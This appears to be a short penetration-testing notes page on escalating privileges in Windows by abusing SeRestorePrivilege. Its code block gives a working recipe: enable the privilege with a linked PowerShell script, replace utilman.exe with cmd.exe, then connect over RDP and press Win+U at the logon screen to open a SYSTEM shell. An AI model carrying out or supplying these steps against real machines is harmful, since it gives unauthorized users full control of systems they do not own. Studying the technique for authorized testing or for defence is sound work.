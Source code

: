 ```yaml
---
description: >-
  Write access control to any file on the system, regardless of the files ACL.
  You can modify services, DLL Hijacking, set debugger (Image File Execution
  Options)… A lot of options to escalate.
---
```


# SeRetorePrivilege

Check the info below. [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---impersonation-privileges](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---impersonation-privileges)\
\
You will need to have a login terminal access via RDP or physically.&#x20;

{% code overflow="wrap" %}
```bash
# Windows Target

#https://raw.githubusercontent.com/gtworek/PSBits/master/Misc/EnableSeRestorePrivilege.ps1

PS> .\EnableSeRestorePrivilege.ps1
PS> move C:\Windows\system32\utilman.exe C:\Windows\system32\utilman.exe.o
PS> move C:\Windows\system32\cmd.exe C:\Windows\system32\utilman.exe

# Assume that you have a RDP console.
Kali> rdesktop $RHOST 

At Logon Screen: Press Win+u key 
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (155).png" alt=""><figcaption></figcaption></figure>
